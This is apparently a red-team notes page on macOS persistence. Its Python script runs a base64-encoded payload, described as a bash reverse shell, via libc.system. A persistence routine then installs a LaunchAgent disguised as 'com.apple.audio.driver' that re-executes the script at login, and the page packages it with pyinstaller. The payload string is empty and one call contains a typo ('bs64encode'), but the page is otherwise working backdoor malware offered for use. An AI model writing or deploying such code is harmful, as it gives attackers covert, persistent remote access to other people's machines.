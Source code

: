 # Scripting

## Python

```python
import base64
import ctypes
import os

# Base64 encoded one-liner bash reverse shell
PAYLOAD = ""

libc = ctypes.CDLL(None)

def execute_command(command):
    execute = libc.system(command.encode())
    return execute

def decode_payload():
    decoded = base64.b64decode(PAYLOAD).decode('utf-8')
    return decoded

def persistence():
    plist_content = """<?xml version="1.0"?>
<plist version="1.0">
<dict>
    <key>Label</key>
    <string>com.apple.audio.driver</string>
    <key>ProgramArguments</key>
    <array>
        <string>/usr/bin/python</string>
        <string>-c</string>
        <string>import base64,sys;exec(base64.b64decode('{}').decode())</string>
    </array>
    <key>RunAtLoad</key>
    <true/>
    <key>KeepAlive</key>
    <false/>
</dict>
</plist>"""

    with open(__file__, 'r') as f:
        content = base64.bs64encode(f.read().encode()).decode()
    plist_path = os.path.expanduser("~/Library/LaunchAgents/com.apple.audio.driver.plist")

    with open(plist_path, 'w') as f:
        f.write(plist_content.format(content))

    os.system(f"launchctl load {plist_path}")

    return True

def main():
    command = decode_payload()
    execute_command(command)

if __name__ == "__main__":
    main()
```

Compile this in the OSX system.

```
$ pyinstaller -F payload.py
```

---
## References

### Backlinks

- [[07 - Tactics & Techniques & Procedures Phases/F - Post Exploitation/0x07 - Maintaining Access/Persistence/OSX/Backdoors/LaunchCTL/Manual/Living off the Land|Maintaining Access: OSX Persistence LaunchCTL]]

### YouTube

- [Cybersec Revolution: Fileless Malware on Mac - Coding & Bypassing Apple Security (Red Teaming Simulation Demo)](https://www.youtube.com/watch?v=CX6ILKPUkJ0)